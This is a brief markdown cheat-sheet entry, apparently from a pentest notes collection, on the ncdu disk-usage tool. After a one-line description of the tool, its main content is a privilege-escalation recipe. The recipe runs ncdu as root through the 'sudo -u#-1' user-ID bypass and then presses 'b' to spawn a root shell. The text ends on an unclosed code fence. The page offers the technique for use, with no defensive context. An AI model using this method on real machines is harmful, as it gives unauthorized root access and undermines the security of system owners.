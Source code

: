 # NCDU

- [Priv Esc](#priv-esc)

> The ncdu command provides a convenient way to review files and the disk space being used on Linux systems, but the file sizes may appear a little strange at first. The name “ncdu” stands for “NCurses disk usage. . It uses an ncurses interface to provide the disk usage information.

### Priv Esc

```bash
sudo -u#-1 ncdu /root/
```
After inside root through ncdu press 'b' to spawn root shell.
```bash